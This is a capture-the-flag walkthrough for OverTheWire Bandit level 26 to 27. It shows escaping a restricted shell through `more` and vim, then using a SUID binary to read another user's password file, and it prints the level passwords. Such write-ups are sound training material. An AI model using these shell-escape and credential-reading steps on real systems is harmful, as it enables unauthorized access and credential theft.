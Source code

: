 # OverTheWire Bandit: Level 26 → Level 27 Walkthrough

## 🔐 Password for bandit26:
```
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
```

---

## 📂 Level Goal

> Good job getting a shell! Now hurry and grab the password for bandit27!

---

## 🚀 Solution

### ✅ Step 1: Log in as bandit26 (from your local terminal)
Make sure your terminal window is small vertically so that the `more` command enters interactive mode:

```bash
ssh bandit26@bandit.labs.overthewire.org -p 2220
```
Enter the password for bandit26 when prompted.

### ✅ Step 2: Press `v` when you see the `--More--` prompt
This opens `.bashrc` in `vim`.

### ✅ Step 3: Inside vim, get a bash shell:

Press `:` to enter command mode, then type:
```vim
:set shell=/bin/bash
```
Then:
```vim
:shell
```

You are now in a real bash shell as `bandit26`!

---

### ✅ Step 4: Look for files in the home directory
```bash
ls -l
```
You will see:
```bash
-rwsr-x--- 1 bandit27 bandit26 7296 May  7  2020 bandit27-do
-rw-r----- 1 bandit26 bandit26  258 May  7  2020 text.txt
```

### 🔐 About `bandit27-do`:
- It is a binary owned by `bandit27`
- It has the **SUID** bit set, meaning when run, it executes with `bandit27`'s privileges

---

### ✅ Step 5: Use `bandit27-do` to read the password file
```bash
./bandit27-do cat /etc/bandit_pass/bandit27
```

You will see:
```bash
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

This is the **password for bandit27**!

---

## 🔐 Final Password
```
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

---
